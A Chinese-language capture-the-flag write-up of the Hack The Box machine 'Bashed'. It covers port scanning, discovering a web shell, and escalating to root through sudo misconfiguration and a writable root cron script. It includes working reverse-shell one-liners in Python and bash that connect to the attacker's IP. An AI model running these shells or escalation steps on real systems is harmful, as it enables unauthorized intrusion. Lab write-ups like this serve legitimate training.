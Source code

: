 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集
先手 `nmap`。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.68
```
就开了一个 80。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面。

![](./1.png)

### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.68
```
未见开放。

**共开放了 `tcp 80` 端口。**

## 0x02 漏洞利用
### 1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。

![](./2.png)
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 `dirbuster` 默认字典跑一下，既然是 php 站点，后缀先用默认的 `.php`。
扫到可疑文件。

![](./3.png)
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

浏览器打开，是一个页面命令行，身份是普通用户 `www-data`。

![](./4.png)

页面下的 shell 多有不便，先弹一个 shell 出来。

这里应该是做了限制，尝试 `bash`、`nc` 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 `curl` 测试又是通的，遂把其他脚本也试了一轮，最后 `python` 成功反弹。
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 0x03 提权
首先关注一下 sudo 权限配置。
``` bash
sudo -l
```
这个配置意思是 `以 scriptmanager 用户的身份无需密码执行任意命令`。

![](./5.png)
狂喜，跑一个 `id` 看看，返回显示还是普通用户。
``` bash
sudo -u scriptmanager id
```
![](./6.png)
并且尝试花式 `su` 到 `root` 都没用，一律需要输密码，切不上去，人傻了。
``` bash
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
```

![](./7.png)
> `su` 需要一个完全互动的 TTY，否则会报错 `su: must be run from a terminal`。切换 TTY：
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> ![](./8.png)

看一下 sudo 版本：`1.8.16`，查到一个漏洞 [CVE-2019-14287](https://paper.seebug.org/1057/)，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我**用 scriptmanager 做一些 www-data 做不到的事情**？

切换到 `scriptmanager`。
``` bash
sudo -u scriptmanager /bin/bash
```
翻一下所属用户为 `scriptmanager` 的文件是否能发现端倪，定位到根目录下的 `scripts` 文件夹。

![](./9.png)
里面有两个文件，根据内容推断出: `scriptmanager 的 python` 脚本执行后会生成一个 `root 的 txt`，说明意味着**这里的 python 文件会以 root 权限执行**，即使暂时不知道原因。

![](./10.png)
所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。

![](./13.png)
![](./11.png)
说明肯定不是由用户来执行，而且 `test.txt` 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 `test.py`。此时断开 shell，打开监听，等待计划任务执行。

![](./14.png)
果不其然得到一个 root shell。

![](./12.png)

> 事后查看计划任务，确实。
> 
> ![](./15.png)

## 0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)

## 0x05 学到什么
#### 1、渗透的时候不要为了省事疯狂 `ls`，能 `ls -la` 的时候尽量用，避免遗漏重要信息。
#### 2、对于不直接的线索要冷静分析，比如看到一个 NOPASSWD，却不是 root，也不要谎，都是套路。